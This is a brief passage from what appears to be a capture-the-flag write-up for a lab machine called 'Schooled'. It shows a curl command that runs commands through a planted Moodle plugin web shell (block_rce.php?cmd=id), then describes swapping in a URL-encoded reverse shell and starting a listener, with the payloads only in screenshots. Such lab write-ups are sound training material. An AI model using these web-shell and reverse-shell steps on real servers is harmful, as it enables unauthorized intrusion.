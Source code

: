After installing, we can test rce by running this command
``` bash
$ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```
![](Schooled/rce.png)

To get our first shell, we just change the cmd to a revshell (url encoded)
![](Schooled/urlencode.png)

Start a listener and run curl again
![](Schooled/curlrevshell.png)
![](Schooled/shell.png)
